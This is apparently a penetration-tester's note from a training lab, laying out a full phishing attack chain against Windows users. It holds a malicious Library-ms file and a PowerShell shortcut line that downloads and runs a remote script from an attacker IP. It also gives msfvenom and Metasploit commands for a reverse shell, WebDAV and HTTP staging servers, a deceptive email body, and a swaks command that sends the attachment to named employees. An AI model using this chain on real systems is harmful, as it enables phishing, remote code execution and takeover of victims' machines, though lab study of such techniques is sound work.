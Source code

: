 <% tp.file.rename("1_phishing")%>


## Creating the Payloads
- 1st stage: config.Library-ms
  This opens our remotely hosted 2nd stage dropper like it was a local folder
```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://HIP</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

- 2nd stage (autoconfig.lnk)
```powershell
powershell.exe -NoExit -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.163:8000/revshell.ps1'); revshell"
```

- 3rd stage
```bash
msfvenom -p windows/powershell_reverse_tcp LHOST=192.168.45.163 LPORT=4444 NOEXIT -f raw -o revshell.ps1
```
>  MUST remove the gibberish from the beginning and end of the file, otherwise the payload won't work

## Setup C2

- Host the 2nd stage via webdav (shell 1)
```bash
/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root .
```

- Create a copy of the library and use that to transfer those two files to kali
> Always keep an unused version of this library file as it might get unusable once opened

- Host the 3rd stage via HTTP (shell 2)
```bash
python3 -m http.server 8000
```

- Receive reverse shell (shell 3)
```bash
msfconsole -x "use exploit/multi/handler; set PAYLOAD windows/powershell_reverse_tcp; set LHOST $hip; set LPORT $hport; set ExitOnSession false; run"
```

## Send Phish
- Example contents for body.txt
```
Hey!
I checked WEBSRV1 and discovered that the previously used staging script still exists in the Git logs. I'll remove it for security reasons.

On an unrelated note, please install the new security features on your workstation. For this, download the attached file, double-click on it, and execute the configuration shortcut within. Thanks!

John
```

- Shell 4
```bash
sudo swaks -t daniela@beyond.com -t marcus@beyond.com --from john@beyond.com --attach @config.Library-ms --body @body.txt --header "Subject: Staging Script" --suppress-data --server $ip_mailserver [-au $username -ap $password]
```
